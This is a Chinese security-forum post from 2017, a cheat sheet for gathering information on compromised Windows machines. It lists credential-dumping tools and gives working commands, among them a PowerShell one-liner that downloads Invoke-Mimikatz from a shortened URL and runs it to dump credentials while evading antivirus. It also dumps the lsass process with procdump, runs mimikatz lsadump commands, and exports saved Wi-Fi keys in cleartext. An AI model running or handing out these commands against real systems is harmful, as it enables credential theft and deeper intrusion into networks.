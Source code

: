 
后渗透攻防的信息收集之CMD下信息收集

rootsecurity / 2017-12-12 16:39:00 / 浏览数 7980 安全技术 技术讨论顶(0) 踩(0)
Author：小城
后渗透常见的信息收集思路
1.1 系统管理员密码
1.2 其他用户session，3389和ipc连接记录 各用户回收站信息收集
1.3 浏览器密码和浏览器cookies的获取 ie chrome firefox 等
1.4 windows无线密码获取。数据库密码获取
1.5 host文件获取和dns缓存信息收集 等等
1.6 杀软 补丁 进程 网络代理信息wpad信息。软件列表信息
1.7 计划任务 账号密码策略与锁定策略 共享文件夹 web服务器配置文件
1.8 vpn历史密码等 teamview密码等 启动项 iislog 等等
1.9 常用的后渗透信息收集工具。powershell+passrec的使用
1.1 常用来获取windows密码的工具
1.mimikatz
2.wce
3.getpass
4.QuarksPwDump
5.reg-sam
6.pwdump7
7.procdump.exe +mimikatz .......

1.2免杀抓取密码的两种方式
powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds"
tips:powershell 默认windows visa后才有
procdump lsass 进程导出技巧
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp //For 32 bits

C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp //For 64 bits
然后本地使用mimikatz 还原密码

1.3 windows本地的信息收集
cmdkey /list

查看3389可信任链接

使用netpass.exe 即可知道密码

net use

查看到已建立连接记录。

也是直接可以 用wmic at sc 等直接执行命令的

1.4 vpn密码获取为例
mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit
其他工具如Dialupass.exe

感兴趣可以看看mimikatz dpapi模块的使用。很强大 sam 密码 ipc连接密码

1.5 windows wifi密码的获取
netsh wlan export profile interface=无线网络连接 key=clear folder=C:\
1.6 ie浏览器的代理信息查看(网络代理信息wpad信息)
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings"
1.7 windows hosts/iis config
C:\Windows\System32\drivers\etc\hosts windows7 windows2008等
C:\WINDOWS\SYSTEM32\DRIVERS\ETC\HOSTS windows2003位置
提权情况下或者过了uac的情况下直接type一下就行了
iis-web路径
iis6 =========>cscript.exe C:\Inetpub\AdminScripts\adsutil.vbs ENUM W3SVC/1/root
iis7 ,8 =======>appcmd.exe
%systemroot%/system32/inetsrv/appcmd.exe list site ——列出网站列表
%systemroot%\system32\inetsrv\appcmd.exe list vdir ——列出网站物理路径
当然你也可以用mimikatz
mimiktaz 读取iis7配置文件密码
